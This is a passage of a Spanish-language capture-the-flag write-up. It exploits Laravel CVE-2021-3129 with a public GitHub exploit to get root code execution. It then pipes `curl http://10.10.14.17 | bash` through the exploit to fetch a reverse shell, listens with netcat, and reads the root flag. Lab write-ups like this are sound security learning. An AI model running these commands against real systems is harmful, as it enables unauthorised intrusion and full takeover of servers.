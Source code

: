 Aquí también nos muestra la versión de Laravel, vamos a buscarla por internet para ver si hay algún exploit en github, en mi caso me funcionó este repositorio (https://github.com/nth347/CVE-2021-3129_exploit), nos lo clonamos y lo ejecutamos siguiendo las instrucciones del exploit:

```bash
python3 exploit.py http://localhost:8000 Monolog/RCE1 id
```

Si nos fijamos en el output vemos que tenemos RCE como root:

![image](../zimages/Pasted_image_20241105182906.png)

Ahora vamos a seguir el mismo procedimiento de antes para conseguir una reverse shell. Nos montamos un server en python en el directorio donde tengamos el archivo index.html con la reverse shell y nos ponemos en escucha con netcat, a continuación, ejecutamos el comando `curl http://10.10.14.17 | bash` en el exploit (siguiendo las instrucciones), si ponemos un `whoami`, ya somos root :)

![image](../zimages/Pasted_image_20241105183351.png)

Ahora nos vamos al directorio de '/root' y leemos la flag de root.

